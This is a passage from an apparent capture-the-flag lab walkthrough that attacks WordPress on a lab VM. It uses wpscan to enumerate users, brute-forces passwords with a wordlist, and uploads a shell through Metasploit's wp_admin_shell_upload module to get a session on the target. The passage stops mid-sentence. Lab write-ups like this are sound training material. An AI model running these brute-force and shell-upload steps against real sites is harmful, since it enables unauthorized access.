 ![](https://i0.wp.com/1.bp.blogspot.com/-qfGsI0-lGtU/Xe0dtptsFrI/AAAAAAAAh1E/uhCqzSVnZLYNz5Wq7jA8w5mYuiZzSkilACEwYBhgL/s1600/11.png?w=687&ssl=1)

There are many pages and as the result shows us that CMS is wordpress, therefore, we can use wpscan to plough through the two specified pages that mentions wordpress. And for that use the following command :

```
wpcan --url "http://192.168.43.8/wordpress" --enumerate
```

![](https://i1.wp.com/1.bp.blogspot.com/-79bUxxMV-DY/Xe0du5zliBI/AAAAAAAAh1U/1yACRnXyQWoU5Py74erIcUSXkzNm04IDwCEwYBhgL/s1600/12.png?w=687&ssl=1)

Similarly, let’s enumerate the other page.

```
wpcan --url "http://192.168.43.8/so-dev-wordpress" --enumerate
```

![](https://i0.wp.com/1.bp.blogspot.com/-NfmPDkBkb9E/Xe0duwBwcaI/AAAAAAAAh1M/cngjfO-TzZgeU7aAbnGvwUSpx4hnmc7vQCEwYBhgL/s1600/13.png?w=687&ssl=1)

As you can see in the above image there are three users. And we have there usernames, we can simply use bruteforce to find their respective passwords and for that type :

```
wpscan --url "http://192.168.43.8/wordpress" -U bossperson -P /usr/share/wordlists/dirb/common.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/-Nxo4QhKMsf0/Xe0du7SAQeI/AAAAAAAAh08/SP4roR10X0IDnRKyh9X-z7qxvLCjwhE8QCEwYBhgL/s1600/14.png?w=687&ssl=1)

Alas, we couldn’t find any password but not to worry as we can run the same command for the other page, let’s try it by typing :

```
wpscan --url "http://192.168.43.8/so-dev-wordpress" -U admin,mike -P /usr/share/wordlists/dirb/common.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/-Nxo4QhKMsf0/Xe0du7SAQeI/AAAAAAAAh08/SP4roR10X0IDnRKyh9X-z7qxvLCjwhE8QCEwYBhgL/s1600/14.png?w=687&ssl=1)

And so, we finally found the password for the user admin. So now, let’s try to upload a shell using msfconsole. And through Metasploit we will use **exploit/unix/webapp/wp\_admin\_shell\_upload**.

![](https://i0.wp.com/1.bp.blogspot.com/-2BfMqwpo9yc/Xe0ieSH9IVI/AAAAAAAAh10/oWVM47tFdPMPJ-W8EBQ5_jOU8zjD5rCkwCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

Once the exploit is intiated, type the set of following commands :

```
set PASSWORD admin  
set RHOST 192.168.43.8  
set USERNAME admin  
set TARGETURI /so-dev-wordpress  
exploit
```

![](https://i0.wp.com/1.bp.blogspot.com/-AWHHm4mVWMI/Xe0ieuZMIKI/AAAAAAAAh14/JAqDbdOigjIL_uq3G6igzZPB64gZdGMXACLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

As you can see, we are successful in getting our session, lets move onto shell of the target system and for that type shell and hit enter. And the next thing you know is you are in the shell of the target system. Now to get a proper authenticated session of shell type the following command :
